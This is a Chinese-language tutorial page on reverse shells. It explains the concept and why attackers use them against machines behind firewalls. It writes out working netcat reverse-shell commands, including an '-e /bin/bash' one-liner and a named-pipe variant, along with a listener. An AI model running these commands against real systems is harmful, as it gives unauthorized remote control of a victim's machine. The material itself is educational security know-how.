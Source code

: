 # 反弹Shell理解与应用

参考文章

[反弹shell是什么](https://www.zhihu.com/question/24503813)

[*Unix系统NC反弹shell的方法](http://www.91ri.org/9615.html)

## 1. 什么是反弹Shell

反弹Shell(Reverse Shell), 就是控制端监听在某TCP/UDP端口(一般是固定ip与固定端口), 被控端主动发起请求到该端口, 将其操作终端的输入输出与控制端连接起来. `reverse shell`与`telnet`, `ssh`等标准shell对应, 本质上是网络概念的客户端与服务端的角色反转.

假设我们攻击了一台机器, 打开了该机器的一个端口, 攻击者在自己的机器去连接目标机器（目标ip：目标机器端口）, 这是比较常规的形式, 我们叫做**正向连接**. 远程桌面, web服务, ssh, telnet等等, 都是正向连接. 

那么什么情况下正向连接不太好用了呢？

1. 某客户机中了你的网马, 但是它在局域网内, 你直接连接不了. 它的ip会动态改变, 你不能持续控制. 
2. 由于防火墙等限制, 对方机器只能发送请求, 不能接收请求. 
3. 对于病毒, 木马, 受害者什么时候能中招, 对方的网络环境是什么样的, 什么时候开关机, 都是未知, 所以建立一个服务端, 让恶意程序主动连接, 才是上策. 那么反弹就很好理解了,  攻击者指定服务端, 受害者主机主动连接攻击者的服务端程序, 就叫反弹连接. 

这种一般是你已经通过某种方式上传了你的木马并骗过了管理员让他执行了这个木马. 这里不讲如何上传木马, 只介绍反弹Shell的创建方式.

## 2. 反弹Shell的方法

通常的方法是使用`nc`命令, 控制端通过`nc`监听特定端口, 客户端通过各种方式将其本地的bash与控制端连接起来.

比如, 控制端执行如下命令监听本地2222端口.

```
$ nc -lv 2222
```

被控端可以通过如下命令建立与控制端的连接(不只是建立连接, 还需要将其本地的bash输入输出与控制端连接起来)

```
$ nc 172.16.26.109 2222 -e /bin/bash
```

`-e`的同名选项为`--exec`, 直接就将本地的bash暴露给了控制端. 但是为了安全, 一般不会编译-e选项, 也就无法反弹shell. 但是可以变换一下思路, 不直接使用NC反弹shell, 而是反弹一个拥有shell权限的**管道**. 

```
$ mknod backpipe p; nc 172.16.11.2 9999 0<backpipe | /bin/bash 1>backpipe
```

在控制端nc输出中你可以看到类似如下的信息时, 说明有被控端连接上来了.

```
$ nc -lv 2222
Connection from 172.16.9.89 port 2222 [tcp/EtherNet/IP-1] accepted
```
